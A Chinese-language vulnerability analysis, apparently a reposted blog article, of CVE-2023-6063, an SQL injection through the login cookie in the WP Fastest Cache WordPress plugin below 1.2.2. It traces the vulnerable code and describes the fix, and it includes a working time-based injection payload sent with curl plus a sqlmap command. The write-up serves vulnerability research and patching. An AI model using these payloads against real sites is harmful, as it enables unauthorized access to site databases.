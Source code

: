 #  CVE-2023-6063分析|WordPress WP Fastest Cache 插件导致的SQL注入   
 船山信安   2023-12-18 00:01  
  
### 漏洞环境  
  
● wordpress 版本无限制● WP Fastest Cache 插件 <1.2.2，这里使用1.2.1版本启用 WP Fastest Cache 插件，并启用“缓存系统”  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpxgSncBq0BtBNzhXW0Z9ZVGphJQOy3lD76tg446L92QcIIn9CJPUAHA/640?wx_fmt=png&from=appmsg "")  
  
漏洞点cache.php 。调用在漏洞分析部分分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpaZRLNianIQATxEVXURMWkKzrtOic4l1FxqiclwDvpdod3Oc3rpAm03fxA/640?wx_fmt=png&from=appmsg "")  
  
public function is_user_admin(){global $wpdb;  
```
foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
    if(preg_match("/wordpress_logged_in/i", $cookie_key)){
        $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
        break;
    }
}

if(isset($username) && $username){          
    $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value` 
                           FROM `$wpdb->users` 
                           INNER JOIN `$wpdb->usermeta` 
                           ON `$wpdb->users`.`user_login` = \"$username\" AND 
                           `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND 
                           `$wpdb->usermeta`.`meta_value` = \"10\" AND 
                           `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                        );

    return $res;
}

return false;
```  
  
}  
### 漏洞复现  
  
记得改cookie 中 wordpress_logged_in的字符串，如wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93漏洞点在cookie的 wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93(会变) 参数处curl https://example.com -H "Cookie: wordpress_logged_in=1234%22%20AND%20(SELECT%202537%20FROM%20(SELECT(SLEEP(5)))Sazm)%20AND%20%22qzts%22=%22qzts"  
  
sqlmap 证明：python sqlmap.py --dbms=mysql -u "http://your-url/wp-login.php" --cookie='wordpress_logged_in_732bf205f063fd120b84d8a0d44e2d5d=*' --level=2 --current-user  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpYRk6ibMCZCFwVWopq4YpIFfwhX0vvOIrme1kTeibibn8RFeYyqd3l0ibnQ/640?wx_fmt=png&from=appmsg "")  
### 漏洞分析  
  
简单说就是在加载插件时，取wordpress_logged_in 第一个 | 前的字符，然后插入到 SQL 语句中。而这样也是可以匹配的，即payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpSFUS3J6DxVGjAWUbW95BJdn0u0ibmhsrYGHZNCeh3AHqEia6AKROCdBQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpGOLoAyp52jr2oDOdFdv4lvxYOq04nW96nQJuSodS6B1O17CkSFp8ZA/640?wx_fmt=png&from=appmsg "")  
  
wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93内容如下：wordpress|1702575454|gquEYSZ8lNbJktLUWLpElq4XybIhpPmOL3MmTMcqi4X|91c52c9d088ad036d8ccdc6ef645adfd906829527d27ea494140369cdbfbb1b9这一部分的功能就是取出wordpress  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpTV0uX1OCXYpvmiaWuPLEYX96cIhCac4fVefcF5eVdLdERYictqnFRxWQ/640?wx_fmt=png&from=appmsg "")  
  
然后没有过滤就进入了SQL语句中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpib9EnnBufBH4u7DlXib1dNelf15jkUIjxSLNue3PfbN2vmG26V1z3IQw/640?wx_fmt=png&from=appmsg "")  
  
is_user_admin() 被 createCache() 调用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpmn4QNYC0JbRZiaDTAS3ibN1ZKRLXc1oRaNPqlbBcpsQNxTulwN8XX3FQ/640?wx_fmt=png&from=appmsg "")  
  
追踪 createCache()，被cache()调用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpF0oGicbaQPUGHOOwqv40KVbUt5XLfmBuUyJYUUqRyichaegjPbceA3DQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNp6KtibR8Mic4JL4tRbMlYaiczqmKrQfF6E6poibgX8baTpibtpuy2JUEMvIg/640?wx_fmt=png&from=appmsg "")  
  
看cache()在何处被调用，发现被构造函数调用，即在 WpFastestCache 对象被创建时调用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpG52tTJh9b3ZEectsXIt1gvVgeHswsag9OBkA0Ol6L3aNsPt3nLtUlQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNp41gaC6SMBb1W48f0q7OvzibLFd2dxg7viaras4rQgUOIAoxp8yfdUI6w/640?wx_fmt=png&from=appmsg "")  
  
这两处创建了对象，看谁包含了wpFastestCache.php，继续跟，跟到plugin.php，大概就是插件加载时调用的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNp9OEARdr0TgyTd8XFWqWumkFjdwrlZwxbM3XHBH1FVsF9ND8IPZqXaA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpTGx0ZPAA5PRwdXBc0emTaQlcQxwRwYogEZhBBlEHqSfPzA8jZ93YCw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpY8ZjEicD9Nialy7uFI40rlgrdA0aic1H1br05foFXibiaqRvWOiaMytVPuPA/640?wx_fmt=png&from=appmsg "")  
### 漏洞修复  
  
WP Fastest Cache 插件 1.2.2，修复了此漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpsnaoR9oOlibnRLHFiah9RfLBSMbKpx8PAcxYyziavnibY0A45NLWTbicKPw/640?wx_fmt=png&from=appmsg "")  
  
对参数进行了过滤  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpibuBYr04OeeOYPCEM11Ej2ezslIfPZMJSPIeuetf7EpafsFXrhBgGzw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNJXxuNVzWmtSTEJCSic9TNpzeaummczf3CNJOhN1Y7asZxtiajJbek65LDK4k6ZqBjB5NYs3grVBeA/640?wx_fmt=png&from=appmsg "")  
  
来源：https://xz.aliyun.com/ 感谢【  
1570920802680446  
 】  
  
